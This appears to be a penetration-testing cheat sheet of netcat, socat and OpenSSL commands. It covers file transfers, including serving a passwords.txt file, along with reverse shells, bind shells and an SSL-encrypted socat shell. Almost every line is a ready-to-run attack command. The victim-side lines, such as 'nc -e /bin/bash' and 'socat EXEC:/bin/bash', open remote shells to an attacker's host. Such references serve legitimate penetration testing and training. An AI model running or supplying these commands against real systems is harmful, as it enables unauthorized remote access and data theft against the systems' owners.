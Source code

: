  useful CLI utilities for file transfers and shells

## File Transfers
- netcat
	- send wget.exe to a nc listener on port 4444:
`nc -nv {ip-address} 4444 < /usr/share/windows-resources/binaries/wget.exe`
	- receive a file on port 4444 and name it wget.exe:
`nc -nlvp 4444 > wget.exe`

- socat
	- Share a file called passwords.txt on port 443:
`sudo socat TCP4-LISTEN:443,fork file:passwords.txt`
	- Receive a file being hosted on port 443 and save it to passwords.txt:
`socat TCP4:{ip-address}:443 file:passwords.txt,create`

## Reverse Shells
Victim connnects and attacker listens. Used 95% of the time.

- netcat
	- attacker runs: `nc -nlvp 4444`
	- victim runs: `nc -nv {ip-address} 4444 -e /bin/bash` 
- socat
	- attacker runs: `sudo socat -d -d  TCP4-LISTEN:4444 STDOUT`
	- victim runs: `socat TCP4:{ip-address}:4444 EXEC:/bin/bash`

## Bind Shells
Victim listens and attacker connects. Useful when bypassing firewalls or when reverse shells "just don't work".

- netcat
	- victim runs: `nc -nlvp 4444 -e cmd.exe`
	- attacker runs: `nc -nv 10.11.0.22 4444`

- socat
	- victim runs: `socat -d -d TCP4-LISTEN:4444 EXEC:/bin/bash`
	- attacker runs: `socat - TCP4:{ip-address}:4444`

## Encrypted shells with OpenSSL
Utilize SSL certificates to encrypt data sent between hosts

- create an openssl certificate
	- `openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 100 -out bind_shell.crt`
- concatenate the certififcate and private key into a .pem file
	- `cat bind_shell.key bind_shell.crt > bind_shell.pem`
 - socat listener utilizing the cert
 	- `sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
 - socat SSL connection to listener
 	- `socat - OPENSSL:{ip-address}:443,verify=0`
